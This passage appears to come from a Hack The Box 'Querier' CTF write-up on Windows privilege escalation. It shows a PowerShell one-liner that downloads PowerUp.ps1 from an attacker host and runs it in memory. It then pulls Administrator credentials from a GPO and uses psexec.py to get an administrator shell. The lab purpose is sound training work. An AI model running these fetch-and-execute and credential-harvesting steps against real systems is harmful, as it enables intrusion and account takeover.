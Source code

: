 Now that we have a user account, we can find `user.txt` at `C:\users\mssql-svc\desktop\user.txt`.

![](/assets/htb-querier/user_proof.png)

---

## Privlege Escalation

### Running `PowerUp.ps1` to enumerate

Since we're running a PowerShell console, we can use the `PowerUp.ps1` script from the PowerSploit suite to enumerate for weaknesses and easy wins.

We can run it from the shell with `IEX(New-Object Net.WebClient).downloadstring('http://10.10.14.4/PowerUp.ps1')`. This will load it to memory on the machine. We can then run `Invoke-AllChecks` to kick off all system checks the script contains. This will tkae a few minutes to run while it searches for itmes that it finds interesting.

Once it returns, we see that it found a few exploitable services and hijackable DLL paths. HOwever, the easy win is the GPO object it found, containing credentials for the `Administrator` account.

![](/assets/htb-querier/gpo_creds.png)

### PSEXEC for root shell

Now that we have the creds, we can use `psexec.py administrator@10.10.10.125` to kick off a shell via the SMB shares.
